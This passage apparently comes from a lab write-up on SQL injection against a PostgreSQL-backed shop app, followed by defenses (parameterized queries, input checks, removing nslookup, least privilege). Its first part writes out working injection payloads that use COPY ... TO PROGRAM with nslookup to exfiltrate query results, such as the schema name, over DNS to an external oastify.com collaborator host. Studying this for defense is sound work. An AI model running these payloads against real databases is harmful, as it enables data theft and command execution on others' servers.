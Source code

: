         declare p text;

        begin

        SELECT into p (SELECT 1);

        c := ’copy (SELECT ’’’’) to program’’nslookup’||p||’.npgc1o120ye14jzuxpnx0eal4ca2yr.oastify.com’’’;

        execute c;

        END;

        $$ language plpgsql security definer;

        SELECT f();
     - This function will trigger nslookup to make DNS record to our DNS server within that DNS record we can perform SQL injection following the mentioned attack vector. Then we will extract all it data in the same way that we did previously on other attacks.
- For example:
    - Getting Schema name:
    - `COALESCE(CAST(CURRENT_SCHEMA() AS VARCHAR(10000))::text,(CHR(32)));create OR replace function f() returns void as $$ declare c text; declare p text; begin SELECT into p (SELECT COALESCE(CAST(CURRENT_SCHEMA() AS VARCHAR(10000))::text,(CHR(32)))); c := 'copy (SELECT '''') to program ''nslookup '||p||'.w9639d3gudbp3yd1y62pzjkojfp5du.oastify.com'''; execute c; END; $$ language plpgsql security definer; SELECT f()`
    - ![](https://i.imgur.com/gsbk5SB.png)
    - ![](https://i.imgur.com/I59IrTI.png)
    - Getting data with special case character, we need to use regex to remove all this data as these special character is not available to make the query.
        - `SELECT unnest(regexp_split_to_array((SELECT brand FROM products OFFSET 0 LIMIT 1), '[, .\”%!:@#$&*(){}\[\]+_-]+')) AS parts OFFSET 0 LIMIT 1`
        - ![](https://i.imgur.com/lN7WlSR.png)
        - ![](https://i.imgur.com/5nREUBo.png)
- Our final result:
    - ![](https://i.imgur.com/TbqlYnr.png)
    - ![](https://i.imgur.com/5jOKr9e.png)
### Part 2: Deploy defense mechanism
- Now we will move to the defense mechanism
- Pramaterize query
    - We will change the way we process our input
        - ![](https://i.imgur.com/Qb5MulF.png)
    - Now we will test if it is still attackable 
        - ![](https://i.imgur.com/xE0lLfI.png)
        - ![](https://i.imgur.com/VTxIoyQ.png)
        - ![](https://i.imgur.com/Ak132mC.jpg)
- Sanitilize input:
    - On this protection mechanism we will add some productId checker to see if this productId is correct.
        - ![](https://i.imgur.com/ln7SQiN.png)
    - If it not correct we will redirect it to a 404 not found website
        - ![](https://i.imgur.com/0WCE3Jy.png)
    - Testing with sqlmap
        - ![](https://i.imgur.com/7YOOEM1.png)
- DNS lookup disabled:
    - We all know that to trigger dns lookup postgres uses nslookup built-in in os so if we remove this functionality on os data with DNS exfiltration is impossible
        - ![](https://i.imgur.com/x0Ea2LO.png)
        - ![](https://i.imgur.com/E9t8Poo.png)
    - here is our result
        - ![](https://i.imgur.com/tg8v5GI.png)
- Set Privilege:
    - We need to set the lowest privilege in case our database is breached so we can lower the attack impact.
    - ![](https://i.imgur.com/xahTixS.png)
    - ![](https://i.imgur.com/v9bv2Oi.png)
    - ![](https://i.imgur.com/Nbzycfs.jpg)